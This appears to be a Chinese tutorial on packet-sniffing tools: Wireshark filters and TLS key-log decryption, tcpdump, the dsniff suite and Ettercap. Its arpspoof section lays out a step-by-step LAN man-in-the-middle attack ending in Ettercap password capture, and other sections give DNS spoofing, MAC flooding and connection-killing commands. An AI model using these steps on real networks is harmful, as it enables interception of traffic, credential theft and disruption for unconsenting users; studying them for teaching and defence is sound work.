

# 1、WireShark


[WireShark](https://so.csdn.net/so/search?q=WireShark&spm=1001.2101.3001.7020) 是一个开源免费的高性能网络协议分析软件，它的前身就是非常著名的网络分析软件Ethereal。WireShark 现在已经支持绝大多数的以太网网卡，以及主流的无线网卡。

WireShark 具有如下所示的特点：

- (1) 支持多种操作系统平台，可以运行于Windows、Linux、Mac OS X10.5.5、Solaris和FreeBSD等操作系统上;
- (2) 支持超过上千种的网络协议，并且还会不断的增加对新协议的支持;
- (3) 支持实时捕捉，然后可在离线状态下进行分析;
- (4) 支持对VOIP数据包进行分析;
- (5) 支持对通过IPsec、ISAKMP、Kerberos、SNMPv3、SSL/TLS、WEP 和 WPA/WPA2 等协议加密了的数据包解密;
- (6) 可以实时获取来自以太网、IEEE 802.11、PPP/HDLC、ATM、蓝牙、令牌环和FDDI(光纤)等网络中的数据包;
- (7) 支持读取和分析许多其它网络[嗅探](http://security.zdnet.com.cn/files/list-0-0-209468-1-1.htm)软件保存的文件格式，包括 Tcpdump、Sniffer pro、EtherPeek、Microsoft Network Monitor和CISCO Secure IDS 等软件;
- (8) 支持以各种过滤条件进行捕捉，支持通过设置显示过滤来显示指定的内容，并能以不同的颜色来显示过滤后的报文;
- (9) 具有网络报文数据统计功能;
- (10) 可以将它捕捉到的数据导出为XML、PostScript、CSV及普通文本文件的格式。

WireShark 官网：[https://www.wireshark.org](https://www.wireshark.org/)

1. WireShark 要在 Windows系统下运行时，还需要一个名为 Winpcap 的驱动库，但是现在 Wireshark 底层用的是 Npcap， Npcap 是 神器Nmap 套件中一个Windows数据抓包程序，主要用于Windows数据包嗅探和发送。Npcap 开源项目源于2013年由Nmap创始人Gordon Lyon和北京大学罗杨博士发起，并由Google Summer of Code计划赞助，以MIT协议发布。由于Winpcap 已经停止更新（此前版本的Npcap主要基于Winpcap（2013停更）），Npcap 通过底层开发构建了全新自己的 Npcap 原始数据包捕获/发送驱动程序，在兼容WinpcapAPI 的基础上，使用更加现代 API 接口，在功能、性能、安全性方面都完胜老版本。
2. 如果是在 Linux 系统下使用时，就应当使用 Libpcap 驱动库，它现在的版本是 Libpcap1.0.0，我们可以从 www.tcpdump.org 上下载。　　

WireShark 在 Windows 和 Linux 系统下安装之前，首先你得保证系统上已经安装了 Npcap 或 Linpcap。下图就是 WireShark 在 Windows 系统下运行时的主界面。


选一个要抓取数据包的网卡接口，就可以捕获接口上的数据


## IP 过滤

在过滤器中输入 ip. 可以查看其它选项。

> 源 IP ：ip.src == 192.168.0.5 或 ip.src eq 192.168.0.5
> 目的IP：ip.dst == 192.168.0.5 或 ip.dst eq 192.168.0.5
> 指定主机ip，源或目的: ip.host == 192.168.0.5 或 ip.host eq 192.168.0.5 或者用ip.addr
> 指定源ip 或 指定目的ip: ip.src == 192.168.0.5 or ip.dst == 192.168.0.5
> 指定源ip 且 指定目的ip: ip.src == 127.0.0.1 and ip.dst == 192.168.0.5
>
> IP层还可以跟进 IP 协议的字段 过滤。

## MAC 地址 过滤

> 与 ip.过滤类似，使用 eth.XXX，没有eth.host
> 示例：eth.addr；eth.src；eth.dst

## 端口 过滤

> 端口过滤非常常用，要指明协议是tcp还是udp，
> 可以用srcport，dstport，port，端口可以用比较符合>，>=，<，<=，==，eq
> 示例：过滤目的端口是80端口的tcp报文：tcp.dstport == 80
> 示例：过滤源端口是443的tcp报文：tcp.srcport == 443
> 示例：过滤端口是80的tcp报文 或者端口是53的udp报文：udp.port == 53 or tcp.port == 80
> 示例：过滤源端口号大于1024的tcp报文：tcp.srcport > 1024
> 示例：过滤指定服务器80端口 ：tcp.port == 80 and ip.host = 192.168.0.5

## 协议 过滤

> tcp，udp，arp，icmp，http，smtp，ftp，dns，msnms，ip，ssl，oicq，bootp等。
> "**排除**" 就是在前面加个 **!** 或者 **not**。
> 示例：只显示tcp报文 ： tcp
> 示例：只显示不是 tcp 的报文 ： !tcp  或者 not tcp
> 示例：过滤ack的包：tcp.ack == 1
> 示例：过滤http包，以及dns包，以及ssl包：http or dns or ssl

## http 过滤

> http.request.method == GET   过滤 HTTP 的 GET 请求
> http.request.method == POST   过滤 HTTP 的 POST 请求
> http.response.code == 200

## 使用 contains 过滤内容

> http contains "HTTP/1.1 200 OK"   
> http contains "200 OK"
> http contains "admin"
> tcp contains "admin"

## 过滤包的指定的字段：协议 [开始位置：长度]

> 示例：tcp协议，从第2个字符开始(起始是0，不是1，这个2是偏移的位置)，
>    长度为3，内容为01，bb，eb
> tcp[2:3] == 01:bb:eb

## 正则 过滤

> 正则使用的是 matches，
> 格式：
> tcp matches "正则表达式"   // 
> tcp contains "字符串"    // contains 只是进行 "字符串匹配"

## 流 追踪

> 数据包，点击鼠标右键 ---> 追踪流 --->  tcp 流进行跟踪、或者 http 流
> 点击之后，就会看到这条 tcp流 或者 http流 上的所有请求和回复
> 选择不同的协议，就可以查看对应协议的流

## 配置 Wireshark 抓取 https 数据包 解密SSL：

Wireshark 解密 HTTPS 流量的两种方法：http://cn-sec.com/archives/508478.html

Wireshark 的抓包原理是直接读取并分析网卡数据，要想让它解密 HTTPS 流量，有两个办法：

### 方法 1：

如果你拥有 HTTPS 网站的加密私钥，可以用来解密这个网站的加密流量；

### 方法 2：

某些浏览器支持将 TLS 会话中使用的对称密钥保存在外部文件中，Wireshark 可以利用这个文件进行解密。Firefox 和 Chrome 都支持这种方式，但 Firefox 和 Chrome 只会在系统环境变量中存在 SSLKEYLOGFILE 路径时才会生成该文件，先来加上这个环境变量（ 以 Windows为例 ）：

- 1、配置环境变量 SSLKEYLOGFILE 值为 C:\ssl_key\sslog.log（注意后缀名一定用 log）这样浏览器和服务器SSL协商的秘钥信息会存储到文件中。打开浏览器，访问一个HTTPS 网页，然后打开 `SSLKEYLOGFILE` 环境变量值的文件路径就可以看到TLS协商的随机字符串记录。
- 2、配置 Wireshark 设置文件路径。菜单栏 ---> 编辑 ---> 首选项 ---> Protocols ---> SSL( 有的版本只有 TLS ) ---> `Pre-Master-Securet log filename`(预主密钥) 添加 SSLKEYLOGFILE 变量设置的路径的日志文件。
- 3、配置好后，重启浏览器，为了避免 wireshark 抓到其他数据包，可以添加过滤器条件，设置 tcp.port=443 这样就只过滤 https 的数据包。


# 2、Tcpdump 和 Windump


[Tcpdump](https://so.csdn.net/so/search?q=Tcpdump&spm=1001.2101.3001.7020) 官网：http://www.tcpdump.org/

Tcpdump 是一个基于命令行，工作在被动模式下的网络嗅探器。可以很好地运行在 UNIX、Linux 和 MacOS 操作系统上，可以从官网上下载它的二进制包。同时，要运行它，也需要系统中安装有 Libpcap1.0.0 这个驱动库。Tcpdump 在 Windows 系统下的版本就是 Windump 也是一个免费的基于命令行方 式的网络分析软件。在使用 Windump 之前，同样要确保系统中已经安装有 WinPcap 4.0.2 驱动库。

许多网络或安全专家，都喜欢用它来发现网络中是否存在ARP地址欺骗。可以将它捕获到的数据包先写入到一个文件当中，然后用 WireShark 等有图形界面的嗅探器读取和分析。

命令格式为：tcpdump [ -adeflnNOpqStvx ] [ -c 数量 ] [ -F 文件名 ][ -i 网络接口 ] [ -r 文件名]
          [ -s snaplen] [ -T 类型 ] [ -w 文件名 ] [表达式 ]

- -i 指定要捕捉的网络接口卡
- -r 读取已经存在的捕捉文件，
- -w 将捕捉到的数据写入到一个文件中。
- man tcpdump 或者 tcpdump --help 查看更多参数

Tcpdump 使用以下三种类型的关键字：

- (1)、表示类型的关键字，主要有 Host、Net、Port
      Host：指定主机的IP地址 ( 如果没有指定关键字，缺省是 Host 类型 )
      Net：指定网络地址
      Port：指定端口
- 表示传输方向的关键字，主要有 Src、Dst
      src：源IP地址
      dst：目的IP地址
- (3)、表示协议的关键字，主要有 ip，arp，tcp，udp 等。

Tcpdump 的关键字还有很多，查看帮助文档来得到它们的详细说明。

关键字之间可以使用 "**逻辑运算关键字**" 连接，以便于指定某个范围或排除某个主机等。

"**逻辑运算关键字**" 有三个，

- "取非" 运算 not，或者用 !  表示
- "与"  运算 and，或者用 && 表示
- "或"  运算 or ，或者用 || 表示


# 3、 DSniff 工具包


github 地址：https://github.com/search?q=dsniff

Kali 需要安装：apt install dsniff

Dsniff 是一个著名的综合性网络嗅探、口令嗅探工具包。Dsniff 开发者 DugSong 在1999年12月以密歇根大学 CITI 研究室（ CenterforInformationTechnologyIntegration）的研究成果为基础， 开发了这个后来具有很大影响力的网络安全工具包。Dsniff 的下载网址：https://monkey.org/~dugsong/dsniff/ 。也可以从网上找到 Dsniff 早期支持的 windows 版本。

DSniff 可以使用一系列的主动攻击方法，将网络流量重新定向到网络嗅探器主机，使得网络嗅探器有机会捕获到网络中某台主机或整个网络的流量。这样就可以将 DSniff 用在交换或路由的网络环境中，以及 Cable modem 拔号上网的环境中使用。甚至当安装有 DSniff 的网络嗅探器不直接连接到目标网络当中，它依然可以通过运程的方式捕获到目标网络中的网络报文。

Dsniff 是一个工具集，主要分为四类：

- 纯粹被动地进行网络活动监视的工具，包括：dsniff、filesnarf、mailsnarf 、msgsnarf、urlsnarf、webspy;
- 针对 SSH 和 SSL 的 MITM（Man-In-The-Middle）"攻击"工具，包括 sshmitm 和 webmitm;
- 发起主动欺骗的工具，包括：arpspoof、dnsspoof、macof;
- 其它工具，包括 tcpkill、tcpnice

各个工具说明：

- **dsniff**：一个密码侦测工具，他能够自动分析端口上收到的某些协议的数据包，并获取相应的密码。dnisff 支持的协议有 FTP、Telnet、SMTP、HTTP、POP、poppass、NNTP、IMAP、SNMP、LDAP、Rlogin、RIP、OSPF、PPTP MS-CHAP、NFS、VRRP、YP/NIS、SOCKS、X11、CVS、IRC、AIM、ICQ、Napster、PostgreSQL、Meeting Maker、Citrix ICA、Symantec pcAnywhere、NAI Sniffer、Microsoft SMB、Oracle SQL*Net、Sybase and Microsoft SQL 等
- **filesnart**：嗅探网络文件系统（NFS）的流量，SMB方式传输的文件的一个副本，并选定某个文件，转储到本地当前工作目录。
- **mailsnarf**：嗅探 SMTP 和 POP 流量，并以 Berkeley 邮件格式输出 e-mail 消息。
- **msgsnarf**：嗅探聊天软件的聊天内容，包括AOL、ICQ 2000、IRC、MSN Messenger 或 Yahoo Messenger
- **urlsnarf**：嗅探 HTTP 请求报文的内容，并以CLF (Common Log Format）格式输出。
- **webspy**：指定一个要嗅探的主机，如果指定主机发送HTTP请求，打开网页，webspy也会通过 netscape 浏览器在本地打开一个相同的网页。( 它能将从客户处嗅探到的URL地址，发送到攻击者的WEB浏览器中显示。并且实时更新，攻击者就可以看到你到底浏览了哪些网站 )
- **sshmitm**： 是Dsniff自带的一个具有威胁的工具之一。首先通过dnsspoof伪造实际机器主机名将攻击目标主机的SSH连接转到本地，那么sshmitm可以截获来自主机的密钥，并获得被劫持连接中的所有信息解码，然后重新转发SSH流量到SSH服务器;
- **webmitm**：与 sshmitm 类似，也需要 dnsspoof 的"配合"，不同的是，webmitm"劫持"的是HTTP和HTTPS会话过程，捕获SSL的加密通信;
- **arpspoof**：启用 arp 欺骗，将自己网卡的IP地址伪装成指定 IP 地址的MAC，例如：伪装成网关，嗅探局域网的所有网络流量，进行抓包;
- **dnsspoof**：启用DNS欺骗，如果dnsspoof嗅探到局域网内有DNS请求数据包，它会分析其内容，并用伪造的DNS响应包来回复请求者。如果是 请求解析某个域名，dnsspoof会让该域名重新指向另一个IP地址（黑客所控制的主机），如果是反向IP指针解析，dnsspoof也会返回一个伪造的域名。一个非常重要的功能就是 webmitm，这种功能主要是用来捕获SSL和SSH加密了的数据。
- **macof**：使用 MAC flooding 来攻击交换机。通过不断向交换机发送包含有冒充的MAC地址的数据包，以此来溢出交换机的MAC地址表。此时，交换就会以广播的方式发送所接收到的数据包。它一般在上述嗅探软件前使用;
- **tcpkill**：能够切断指定的TCP会话连接，主要是基于TCP的三次握手过程。其实就是一种拒绝服务攻击(DoS)。主要用来切断与合法主机的网络连接，保证嗅探工作的正常进行。它一般在上述嗅探软件前使用。
- **tcpnice**：能够通过在添加活动的流量，降低指定的LAN上的TCP连接的速度。
- **screenspy** ：用进行屏幕监控;


## dsniff 

> 用法：
>     dsniff [-c] [-d] [-m] [-n] [-i interface | -p pcapfile] [-s snaplen] [-f services] [-t trigger[,...]]]  [-r|-w
>     savefile] [expression]
>
> 选项
>     -c   打开半双工TCP流，允许在使用 arpspoof时进行正确的嗅探操作
>     -d   启动调试模式;
>     -m   使用dsniff.magic文件，通过在magic文件中定义的特征，尝试自动判断协议
>     -n   不把 IP 地址解析成主机名
>     -i interface    指定网络接口
>     -p pcapfile     不是处理网络上所观察到的数据包的内容，而是处理给定捕获数据包的PCAP文件。        
>     -s snaplen     对报文的前snaplen个字节进行嗅探，而不是默认的1024字节;.
>     -f services     以/etc/service格式从文件中加载触发器(也就是口令嗅探的服务类型);
>     -t trigger[,...]
>         使用格式 port/proto=service 来加载一个以逗号界定的触发器集(e.g. 80/tcp=http).
>              dsniff –t 21/tcp=ftp,23/tcp=telnet –m
>     -r savefile     从保存的文件中读取会话(-w 选项 可以保存会话到文件)
>     -w file       保存 会话 到文件中
>     expression     指定一个 tcpdump(8) filter expression 来让 sniff 选择要嗅探的流量.   
>     
>     在挂起的信号中，dsniff会将当前的触发器表转储到dsniff.services。
>
> FILES
>     /usr/share/dsniff/dsniff.services
>        Default trigger table
>
> ​    /usr/share/dsniff/dsniff.magic
> ​       Network protocol magic
>
> 参见；另请参阅
>     arpspoof(8), libnids(3), services(5), magic(5)


## filesnarf、mailsnarf、msgsnarf、urlsnarf、webspy、webspy

filesnarf、mailsnarf、msgsnarf、urlsnarf、webspy、webspy  使用方式都 差不多。可以 使用 man 查看具体使用。

> FILESNARF(8)         System Manager's Manual        FILESNARF(8)
>
> NAME
>     filesnarf - sniff files from NFS traffic
>
> SYNOPSIS
>     filesnarf [-i interface | -p pcapfile] [[-v] pattern [expression]]
>
> DESCRIPTION
>     filesnarf  saves  files sniffed from NFS traffic in the current working
>     directory.
>
> OPTIONS
>     -i interface  指定监听接口
>     -p pcapfile  处理捕获的 包文件
>     -v       "反转" 模式.  反转匹配，选中不匹配的文件.
>     pattern    指定正则表达式        
>     expression   指定 一个要嗅探的流量的 tcpdump(8) 过滤表达式 
>
> SEE ALSO
>     dsniff(8), nfsd(8)


## sshmitm、**webmitm**

webmitm 与 sshmitm 类似，都需要配合 dnsspoof 一块使用。

- webmitm 劫持的是 HTTP 和 HTTPS 会话过程
- sshmitm 捕获 SSL 的加密通信


## arpspoof

arp 毒化的原理，简单的说就是伪造MAC地址与IP的对应关系，导致数据包由中间人转发出去。

中间人攻击 --- ARP毒化：http://www.2cto.com/Article/201207/144532.html

arp 毒化有双向（remote）和单向（oneway）两种方式。

- 双向方式：将对两个目标的ARP缓存都进行毒化，对两者之间的通信进行监听。一般来说，会选择使用双向欺骗的方式来获取所有的数据包进行嗅探分析。
- 单向方式：只监听从第一个目标到第二个目标的单向通信内容。

若目标主机开启了ARP防火墙怎么办？

- 直接欺骗会引发报警且无效果。这时就是单向ARP毒化大显神威的时候了。只要路由器没有对 IP 和 MAC 进行绑定，我们就可以只欺骗路由器，使从路由器发给目标主机的数据包经过中间人，完成我们的攻击。

>  **如果不指定 tagget 则向网络中所有的主机发送欺骗**
>
> root@kali:~# arpspoof -h
> Version: 2.4
> 用法: arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host
>
> 名字
>     arpspoof - 在交换式网络截获包
> 概要
>     arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host
> 描述 
>     通过伪造 ARP 响应,重定向局域网中一个目标主机(或所有主机)上的数据包
>     到 局域网中的另一个主机上。这在交换式网络上嗅探流量是一个非常有效的方法
>     注意：内核IP转发(或一个实现相同功能的用户程序，如 fragrouter(8))必须提前打开。
>
> 选项
>     -i 网卡接口     指定使用的网卡接口
>
> ​    -c own|host|both  
> ​    指定在恢复arp配置时使用的硬件地址;在清理时，可以用自己的地址和主机的地址发送数据包。
> ​    用一个假的硬件地址发送数据包可能会破坏与某些switch/ap/bridge 配置的连接，
> ​    但是它比使用自己的地址更可靠，这是arpspoof事后清理的默认方式。
>
> ​    -t target   指定要 ARP毒化 的主机(如果没有指定，默认局域网所有主机). 可以重复指定多个主机。
> ​    -r      毒化两个主机(主机和目标)以捕获两个方向的流量。(只在与 -t 联合使用才有效)
> ​    host     指定你希望拦截数据包的主机(通常是本地网关)。
>
> 参见；另请参阅
>     dsniff(8), fragrouter(8)
>
> ​    
> // 使用ARP毒化，重定向受害者的流量传送给攻击者。
> root@bt:~# arpspoof -i eth0 -t 192.168.1.5 192.168.1.1   
>
> // 第二个ARP毒化攻击使网关的数据重定向到攻击者的机器(流量由网关到攻击者再到受攻击者)
> root@bt:~# arpspoof -i eth0 -t 192.168.1.1  192.168.1.2  
>
> 
> root@bt:~# arpspoof -i eth0 -t 192.168.1.5 192.168.1.1
> root@bt:~# arpspoof -i eth0 -t 192.168.1.1 192.168.1.5

arpspoof 启用 arp 欺骗，将自己网卡的IP地址伪装成指定IP地址的MAC持续不断的发送假的ARP响应包给一台或多台主机，以 "**毒害**" 其ARP缓存表。一旦成功，即可以用别的嗅探工具来接收发送到本地的数据包。

与 Ettercap 不同的是， arpspoof 并不进行真正的嗅探，它只是简单的进行ARP欺骗，本地主机 必须启动内核的 IP Forwarding功能（或者使用 fragrouter 这样的工具），否则，所有 "**转向**" 发到本地的数据包就如同进了黑洞， 正常的网络通信将无法进行， 而一旦启动了本地的 IP Forwarding，内核将自动对本地收到的目的IP却是别处的数据包进行转发，正常的通信自然可以进行。这样，就可以进行后续的工作，包括分析嗅 探得到的数据包、修改数据包中的某些信息以重新转发等等。

Ettercap 则不光进行 ARP 欺骗，它还要做后续的许多工作，包括分析嗅探得到的数据包、修改数据包中的某些信息以重新转发等等。

Linux 中缺省是禁止 IP Forwarding 的，输入下面命令，启用 IP 转发（ PS: 利用 Linux 主机的路由功能 ）

> root@bt:~# cat /proc/sys/net/ipv4/ip_forward
> root@bt:~# echo 1 > /proc/sys/net/ipv4/ip_forward
> root@bt:~# cat /proc/sys/net/ipv4/ip_forward

或者 修改下面文件

> 修改    # vi /etc/sysctl.conf      修改 net.ipv4.ip_forward=1
> 修改后运行 #sysctl –p          命令使得内核改变立即生效；

一旦启动了本地的 IP Forwarding，内核将自动对本地收到的目的IP是别处的数据包进行转发，
( 同时向数据包的源地址发送ICMP重定向报文， 当然， 由于启用了ARP欺骗， 这个重定向报文是不起作用的)。


## **arpspoof** 实现局域网欺骗、中间人攻击

在现代的局域网当中，交换式局域网是主流，广播式的局域网已经或者不在存在，以前要嗅探局域网络上传输的信息只需将网卡设置为混合模式，通过捕获数据包的软件，就可以截取。现在交换式以太网或者局域网中，交换机通过查看路由表（不严格的说法）发送信息。要想截获两台主机中传递的信息可以通过 arp 欺骗获得。

- **中间人攻击**：中间人攻击是一种“间接”的入侵攻击，这种攻击模式是通过各种技术手段将受入侵者控制的一台计算机虚拟放置在网络连接中的两台通信计算机之间，这台计算机就称为“中间人”
- **ARP 协议**：ARP协议准确的来说是ARP地址解析协议。ARP是指根据IP地址获取物理地址的一个TCP/IP协议。主机发送信息时将包含目标IP地址的ARP请求广播到局域网络上的所有主机，并接收返回消息，以此确定目标的物理地址；收到返回消息后将该IP地址和物理地址存入本机ARP缓存中并保留一定时间，下次请求时直接查询ARP缓存以节约资源。通俗的说，DNS是域名与IP对应的协议，而ARP是IP与mac(物理地址)对应的协议，DNS常用于主机与外网机器连接时进行地址转换，而ARP多用于内网机器通信时地址的转换
- **ARP 欺骗**：ARP欺骗就是通过欺骗局域网内访问者PC的网关MAC地址，使访问者PC错以为攻击者更改后的MAC地址是网关的MAC，导致网络不通。此种攻击可让攻击者获取局域网上的数据包甚至可以嗅探、篡改数据包，且可让网络上特定计算机或所有计算机无法正常连线。

步骤：

- 第一步：查看IP和网关，命令： ifconfig ，route -n ( 我本机网关：192.168.1.1 )
- 第二步：利用 nmap 查看同网段下（192.168.1.0/24）的所有活跃IP，使用命令 nmap 192.169.1.0/24。确认被攻击机的IP地址。( 假设被攻击主机 IP 是 192.168.1.5 )
- 第三步：让被攻击的主机断网：arpspoof -i eth0 -t 192.168.1.5 192.168.1.1
- 第四步：断网不是我们的目的，我们的目的是实施ARP欺骗和中间人攻击。开启 IP 转发功能，linux 因为系统安全考虑，是不支持 IP 转发的，其配置文件写在 /proc/sys/net/ipv4 的ip_forward中。默认为0，修改为1 ( 命令：echo 1 > /proc/sys/net/ipv4/ip_forward )，就可以嗅探目标靶子的流量，来获取目标的重要信息。
- 欺骗成功，使用 ettercap 渗透工具来抓取账号密码，执行命令 **ettercap -Tq -i eth0** 监控 eth0 网卡的流量


## dnsspoof

> root@kali:~# dnsspoof -h
> Version: 2.4
> 用法: dnsspoof [-i interface] [-f hostsfile] [expression]
>
> 描述    
>     dnsspoof启用DNS欺骗，如果dnsspoof嗅探到局域网内有DNS请求数据包，
>     它会分析其内容，并用伪造的DNS响应包来回复请求者。
>     如果是请求解析某个域名，dnsspoof会让域名重新指向另一个IP地址(黑客所控制的主机)，
>     如果反向IP指针解析，也会返回一个伪造的域名.
>     
>     在dnsspoof的命令选项中，可以指定一个主机列表文件，文件格式与/etc/hosts相同，
>     如果不指定该文件，dnsspoof会返回本地的IP给域名解析请求者。
>
> 选项
>     -i interface   指定使用的网卡
>     -f hostsfile   指定要欺骗的网址。如果不指定hostsfile，将返回本机的IP地址给攻击者
>     expression    指定一个tcpdump(8)过滤器表达式来选择要嗅探的流量。就是指定一个Tcpdump准则 的 包过滤
>
> 文件
>     /usr/share/dsniff/dnsspoof.hosts
>        Sample hosts file.
>
> 参见；另请参阅
>     dsniff(8), hosts(5)  // man 8 dsniff  或者  man 5 hosts

root@bt:#dnsspoof -i eth0 -f /usr/h22.hosts

**dnsspoof** [**-i** *interface*] [**-f** *hostsfile*] [*expression*]  这里-f 可以指定主机列表文件，文件格式与/usr/local/lib/dnsspoof.hosts相同，如果不指定该文件，dnsspoof会返回本地的 IP给域名解析请求者


这里本地主机会抢先代替DNS服务器来相应查询，前提是本地主机先回答DNS查询，如果因为 网络问题，DNS服务器先发送了应答，DNS欺骗就不能生效了


## macof

macof 用来进行 MAC flooding，在本地网络中发送大量的随机 MAC 地址的数据包，可以指定源IP、目的IP、源端口、目的端口，以MAC洪水的方式来导致某些交换机 MAC 表溢出，从而丧失 "**交换**" 能力 ，对于以后收到的数据包以广播方式发送，以达到共享式嗅探的目的。注意：在进行 MAC 泛洪之前就存在于交换机 MAC 表中的条目不会被覆盖，只能等到这些条目自然老化。

> NAME
>     macof - 用随机 MAC 地址 洪泛 交换式局域网络
>
> 用法
>     macof [-i interface] [-s src] [-d dst] [-e tha] [-x sport] [-y dport]
>     [-n times]
>
> 选项
>     -i interface   指定发送的网卡接口
>     -s src    指定源 IP 地址
>     -d dst    指定目的 IP 地址
>     -e tha    指定目标硬件地址
>     -x sport   指定 TCP 源端口
>     -y dport   指定 TCP 目的端口
>     -n times   指定发送包 的 个数
>
> ​    任何未指定的选项的值都是随机生成的。
>
> 参见；另请参阅
>     dsniff(8)


## tcpkill

tcpkill 能够切断指定的 TCP 会话连接，主要是基于 TCP 的三次握手过程。 中断特定的 TCP 连接。

> root@kali:~# tcpkill -h
> Version: 2.4
> Usage: tcpkill [-i interface] [-1..9] expression
>
> 
> NAME
>     tcpkill - kill TCP connections on a LAN
>
> 
> 选项
>     -i interface   指定监听接口
>     -1...9     指定在杀死连接时使用的蛮力的程度。
>             为了在移动的接收窗口中找到一个RST，快速连接可能需要一个更高的数字。默认是3。
>     expression   指定一个tcpdump(8)过滤器表达式来选择要杀死的连接
>       
>
> SEE ALSO
>     dsniff(8), tcpnice(8)


这里，当tcpkill检测到两边的TCP连接后，会同时想两边（冒充对方）发送tcp reset报文，重置连接。


## tcpnice

tcpnice 能够通过在添加活动的流量，降低指定的 LAN 上的 TCP 连接的速度

**tcpnice** [**-I**] [**-i***interface*] [**-n***increment*] *expression*  这里的-n后面可以跟1-20，代表降低的速度，1为原速，20为最低


# 4、 Ettercap ( kali 自带工具 )


官网：[https://www.ettercap-project.org/index.html](https://www.ettercap-project.org/)

github 地址：https://github.com/Ettercap/ettercap

ettercap 是一个高级网络嗅探软件，有人性化的图形化界面，又有丰富的命令，还可以编写过滤规则。Ettercap 能够对大多数的[网络协议](https://so.csdn.net/so/search?q=网络协议&spm=1001.2101.3001.7020)数据包进行解码，不论这个数据包是不是加密的。Ettercap 还拥有一些独特的方法，用来捕获主机或整个网络的流量，并对这些流量进行相应的分析。Ettercap 可以在交换机的网络环境中使用。Ettercap 的大部分特性与 DSniff 相似，可以在命令行模式下使用，也可以在图形界面上使用。

Ettercap 支持四种界面模式，分别是：Text、Curses、GTK2 、Daemonize。

- -T 参数：即 Text 界面模式，相当于命令行，通常与之配套的参数有 -q 代表安静模式，表示不会显示抓到数据包的内容。
- -C ( Curses ) 和 -G ( GTK2 ) 参数：图形化界面，带有 GUI。
- -D 参数：Daemonize 也叫做守护模式，可以理解为在后台运行。

-G 参数指定在 GTK2 接口的图形模式下使用。（ 是在 kali 用户下，不是 root 用户下，执行时必须 sudo，不然会有权限问题）


在 Ettercap 使用中，还存在关于交互模式的问题，如果启动 Ettercap 的时候没有指定参数 -N 选项，那么就默认自动选择了交互模式。如果在某些情况下不知到可以做什么，只要键入 H 就可以弹出帮助画面，可看到可执行命令的消息列表。
另外 Ettercap 并不转发数据包，转发数据包的是操作系统，因此，在中间人攻击时需要启用操作系统的数据包转发功能。当然，如果只想用 Ettercap 做一个中间人，而用其他工具来嗅探数据的话，可以加入参数-o (only-mitm)实现。

ettercap --help 命令查看帮助


Ettercap 两种运行方式，UNIFIED 和 BRIDGED：

- UNIFIED 方式是以中间人方式嗅探。原理：UNIFIED方式是同时欺骗A和B，把原本要发给对方的数据包发送到第三者C上，然后由C再转发给目标。这样C就充当了一个中间人的角色。因为数据包会通过C那里，所以C可以对数据包进行分析处理，导致了原本只属于A和B的信息泄露给了C。UNIFIED方式可以完成以上欺骗，并对数据包分析。Ettercap 劫持的是A和B之间的通信，在 Ettercap 眼中，A和B的关系是对等的。
- BRIDGED方式是在双网卡情况下，嗅探两块网卡之间的数据包。原理：BRIDGED方式 有点像笔记本电脑上有两个网卡，一个有线网卡，一个无线网卡。可以将有线网卡的 internet 连接共享给无线网卡，这样笔记本就变成了一个无线 ap，无线网卡产生的所有数据流量都将传送给有线网卡。BRIDGED方式 ettercap 嗅探的就是这两块网卡之间的数据包。

一般使用 UNIFIED 方式。其运行参数为 -M（M是MITM的首字母，为中间人攻击的缩写）。当指定 -M 参数时，即中间人攻击时，有以下几种攻击方式：

- arp 毒化的中间人攻击。arp毒化的原理：简单的说，就是伪造MAC地址与IP的对应关系，导致数据包由中间人转手出去
- arp 毒化有 双向（remote）和 单向（oneway）两种方式。
      双向方式将对两个目标的ARP缓存都进行毒化，对两者之间的通信进行监听。
      单向方式只会监听从第一个目标到第二个目标的单向通信内容。
      一般选择双向欺骗的方式来获取所有的数据包进行嗅探分析。
  例如：ettercap -T -q -M arp:remote /10.0.0.2/ // 
  说明：对 10.0.0.2 的所有端口的通信进行嗅探，包括发出的数据包和收到的数据包。
-  Port Stealing：此攻击方式适用的环境是在交换机下，且路由器中ip和mac绑定无法进行arp欺骗。其基本思想是，既然无法欺骗路由器的IP和MAC对应关系，那么就欺骗交换机的吧。这样，原本应该通过交换机某一个端口到达目标主机的数据包被传入了攻击者的端口。由于本方法只能用于交换机环境，且会产生大量的数据包，严重影响网络状况，用之前须三思。

> Ettercap，它相当于ARP病毒和密码嗅探界的瑞士军刀。
>
> ​    -T   使用 文字 界面
> ​    -q   安静模式，减少不必要输出
> ​    -M   MITM（中间人）方式，下面示例中是 中间人是ARP 
> 如果我们的目标是网络上的所有主机，想要嗅探每个节点之间的所有传输
>
> 命令： **ettercap -T -q -M ARP // //**
> 你应当谨慎的使用上面那段命令，因为如果把一个大网络中所有的传输都通过一台很慢的计算机的话，那么这很有可能使整个网络连接瘫痪。可以找个替罪羊，来看看 IP 地址为 192.168.1.1 的主机
>
> 命令：**ettercap -T -q -M ARP /192.168.1.1/ //**
> 如果192.168.1.1 是网关，我们应该可以看到所有的输出传输。

对于 Ettercap 的 sniffing 工作方式，可以划分为五种：

- 1）IPBASED：在基于IP地址的sniffing方式下，Ettercap将根据源IP-PORT和目的IP-PORT来捕获数据包；
- 2）MACBASED：在基于MAC地址的方式下，Ettercap将根据源MAC和目的MAC来捕获数据包（在捕获通过网关的数据包时，这种方式很有用）；
- 3）ARPBASED：在基于 Arp 欺骗的方式下，Ettercap利用Arp欺骗在交换局域网内监听两个主机之间的通信（全双工）；
- 4）SMARTARP：在SMARTARP方式下，Ettercap利用Arp欺骗，监听交换网上某台主机与所有已知的其他主机（存在于主机表中的主机）之间的通信（全双工）；
- 5）PUBLICARP：在PUBLICARP 方式下，Ettercap利用Arp欺骗，监听交换网上某台主机与所有其它主机之间的通信（半双工）。此方式以广播方式发送Arp响应，但是如果 Ettercap已经拥有了完整的主机地址表（或在Ettercap启动时已经对LAN上的主机进行了扫描），Ettercap会自动选取 SMARTARP方式，而且Arp响应会发送给被监听主机之外的所有主机，以避免在Windows主机上出现IP地址冲突的消息。


## Ettercap 目标写法：**MAC / IPs / PORTs**

对于 Ettercap 的常用操作，在选择目标时，Ettercap 的目标表达形式为： **MAC / IPs / PORTs**

